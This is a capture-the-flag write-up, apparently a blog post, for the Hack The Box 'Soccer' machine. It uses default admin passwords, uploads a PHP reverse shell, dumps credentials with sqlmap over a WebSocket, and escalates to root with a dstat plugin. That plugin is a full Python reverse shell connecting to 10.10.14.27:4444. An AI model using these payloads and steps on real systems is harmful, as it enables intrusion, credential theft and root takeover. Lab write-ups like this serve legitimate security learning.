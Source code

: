 ```yaml
---
layout: post
title:  "Hackthebox - Soccer writeup"
date:   2023-05-17 19:00:00 +0300
categories: HTB write-up
---
```


This has been a fun box. It is ranked as easy, but I would argue it is more difficult than that. Pawning the user takes some time and thought.


## Initial foothold

As always, let's start with a port scan.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-nmap-soccer.png "HTB soccer nmap scan")

<br>

The only interesting finding for now is the http service on port 80, which is a simple static html page under the soccer.htb domain. Nothing much we can do about it. Let's brute force soccer.htb with gobuster.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/gobuster-soccer-htb.png "HTB soccer gobuster")

<br>

We find only one subdirectory /tiny. It turns out to be a very simple php file management system. By vising the official Tiny file manager page on Github I can see a list of default passwords for admin and user. And of course they work...

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-tinyfilemanager.png "HTB soccer tinyfilemanager")

<br>


When logging in as admin I can browse the webpage directory and I can see an upload function as well (not visible in the image below).

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-admin-tinyfilemanager.png "HTB soccer admin tinyfilemanager")

<br>

I uploaded the php-reverse-shell.php script that can be found under /usr/share/webshells/php in kali linux. I set my IP adress and a preferable port number and uploaded the script. Before visiting the link where the script resides I start netcat locally on my machine.

```
nc -lvp 4444
```

When visiting the php link from my browser I get a shell as www-data on my kali machine. The next step is to get a user.

<br>

## User flag

At this point I was using grep and find to check in interesting files and folders and see what services are being run on the machine. I particularly searched for references of "player" as that is the name of the user according the folder found under /home. What caught my eye is the following:

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-1.png "HTB soccer user flag")

<br>

It clearly looks like another subdomain that I can access. I had to add the same configuration in my /etc/hosts file to be able to access the soc-player.soccer.htb subdomain.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-2.png "HTB soccer user flag subdomain")

<br>

I checked around and tried sql injection on the forms, but I didn't find anything interesting. When registering a user I see that under Tickets there is another form that I can use to interact with the server.

I routed traffic through Burp and I see that it is essentially a web socket connection being utilized to check validity of tickets.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-3.png "HTB soccer Websocket protocol switch")

<br>


<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-4.png "HTB soccer Websocket protocol burp")

<br>

At this point the websocket connection seemed the only alternative I had to move forward with this machine. I simply googled for websocket exploits as I didn't have much experience with websockets.

Eventually I found that sql injections could be suitable for my scenario and also I ended up reading this blog post: [Automating Blind SQL injection over WebSocket](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html?ref=appsecguy.se)

I followed the instructions as detailed in that blog post to run sqlmap over a websocket connection. All you need to do is use:

```
ws_server = "ws://soc-player.soccer.htb:9091"
```

and set

```
data = '{"id":"%s"}' % message
```

You then run the python script on your kali machine and execute sqlmap from another shell as follows:

```
sqlmap -u "http://localhost:8081/?id=1" -p “id”
```

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-sqlmap.png "HTB soccer SQLMap")

<br>

Bingo, I found an sql injection vulnerability.

Eventually I found myself running a few extra sqlmap commands to get a dump of the database table holding the passwords.

```
sqlmap -u "http://localhost:8081/?id=1" -p "id" --dump -D soccer_db -T accounts
```

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-sqlmap-2.png "HTB soccer SQLMap credentials dumping")

<br>

Let's try to login as the user "player" using ssh.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-ssh-login.png "HTB soccer SSH login")

<br>

## Root flag

I download and run [LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS?ref=appsecguy.se) to find privilege escalation paths.

I see dstat under group writable files and my user having executable rights for doas, which is a sudo alternative. My current user did not have sudo rights unfortunately.

dstat can run python plugins that found in specific directories, as per this [post](https://gtfobins.github.io/gtfobins/dstat/?ref=appsecguy.se).

If I place a python reverse shell from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md?ref=appsecguy.se#python) in /usr/local/share/dstat and then execute that  python script with dstat, by calling dstat using doas, I should get an elevated shell back at my attacker machine.

I saved the following python script as dstat-plugin in /usr/local/share/dstat.

```
import socket,os,pty;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);

s.connect(("10.10.14.27",4444));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

pty.spawn("/bin/sh")
```

I started a listener on my Kali machine.

```
nc -lvp 4444
```

Finally, I executed the python script with:

```
doas -u root /usr/bin/dstat  --plugin
```

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-root-flag "HTB soccer root flag")

<br>